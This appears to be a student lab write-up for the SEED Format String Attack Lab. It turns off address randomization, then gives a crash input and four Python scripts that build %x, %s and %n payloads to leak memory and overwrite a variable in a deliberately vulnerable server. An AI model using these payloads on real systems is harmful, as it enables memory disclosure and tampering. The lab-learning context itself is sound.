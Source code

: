 # Week 6: SEED Labs – Format String Attack Lab

## Environment Setup

### Turning off Countermeasure

Modern operating systems implement countermeasures to mitigate exploits like the format-string. Space randomization is used to randomize the starting address of heap and stack, this makes guessing the exact address difficult as adress guessing is one of the critical steps of this exploit.
In order to complete this lab we need to disable memory randommization, we can do this by using the following command: 
```
sudo sysctl -w kernel.randomize_va_space=0
```
### The Vulnerable Program
The vulnerable program is the file *format.c* and the way how the input data is fed into the *printf()* functions is unsafe leading to a format-string vulnerability. The segment of code containing the vulnerability is the following: 
```
void myprintf(char *msg)
{
// This line has a format-string vulnerability
printf(msg);
}
```
### Task 1: Crashing the Program
The goal of task 1 is to crash the program by providing an input to the server.

To crash the program we provided to following input: 
```
%s%s%s%s%s%s%s%s%s%s%s%s%s%s
```
This crashes the program because the *printf()* function is not capable of receiving this much format specifiers. These values are not valid addresses which will cause a segmentation fault.

### Task 2: Printing Out the Server Program’s Memory


#### Task2.A: Stack Data
In this task we need to figure out the number of *%x* we need to introduce to the input so we can get the server to print out the first four bytes of our input. In other words we need to find the number of hops, N, in the memory needed, to align the *printf()* internal pointer to the char* msg location in memory.

We took a hit and miss approach to accomplish this task. We injected an increasing numbers of the *%x* specifier until we got to the content of our input.

In our case it took a total of 64 *%x*, meaning that the first character of the msg was 64*4 = 256 bytes after the last argument of the *print()* function.

We ended up with the following *build_string.py* file:
```
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

number = 0xABCDABCD

content[0:4] = (number).to_bytes(4,byteorder='little')

s = "%.8x\n"*64

fmt= (s).encode('latin-1')

content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

#### Task2.B: Heap Data
The task is a extension of the previous task, meaning the we need the previous calculations to achieve the goal of printing the secret message. In task2A we found the correct place in memory using *%x*, by jumping through the memory, to print out data on the stack.
In this task we need to introduce an extra *%s* format specifier to print the secret message, meaning that we need to remove a *%x* specifier. Ending up with 63 *%x* followed by 1 *%s*. The *%s* specifier will print the wanted string.   

We ended up with the following *build_string.py* file:
```
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

number = 0x080b4008

content[0:4] = (number).to_bytes(4,byteorder='little')

s = "%.8x\n"*63 + "%s"

fmt= (s).encode('latin-1')

content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```
And the secret message is: "A secret message".

### Task 3: Modifying the Server Program’s Memory
#### Task 3.A: Change the value to a different value
The *%n* format specifier assigns a variable the count of the number of characters used in the print statement before the occurence of the *%n*. With this in mind it is possible to overwrite values in memory.

In this task we need to change the value of the *target* variable. To accomplish this we need to skip over the 63 addresses with the ``` %.8*63 ``` format and happend a *%n* at the end of the built string, overwrting the value *target* value.  

The *target* variable ended up with the value *1fc* that is equal to 508, which represents the 63 addresses plus 4 bytes corresponding to the *number* variable with value *0x080e5068*.

We ended up with the following *build_string.py* file:
```
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

number = 0x080e5068

content[0:4] = (number).to_bytes(4,byteorder='little')

s = "%.8x"*63 + "%n"

fmt= (s).encode('latin-1')

content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```
#### Task3.B: Change the value to 0x5000 
 This task is a extension of the previous task, meaning that taskt3.A is a starting point to complete this subtask.

Kepp this operation in mind:
```
    19972 -> 0x5000 - 0x1fc
```

 To modify the *target* variable to the value *0x500*, we need to skip the 63 addresses and inject the value 19972 resultant of the above subtraction. <br>

We found a little obstacle when finishing this task, every time we executed the file a segmentation fault occured.  
We the realized that the % formatters made the memory hop one address, leading to the *printf()* pointer to point to the wrong address. To resolve this issue we removed a *%x* specifier, having now a total of 62, making the injection of the characters increase by 8. So we had to add 8 extra hexadecimal characters, ending up with 19980.

We ended up with the following *build_string.py* file:
```
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

number = 0x080e5068

content[0:4] = (number).to_bytes(4,byteorder='little')


s = "%.8x"*62 + "%.19980d%n"

fmt= (s).encode('latin-1')

content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

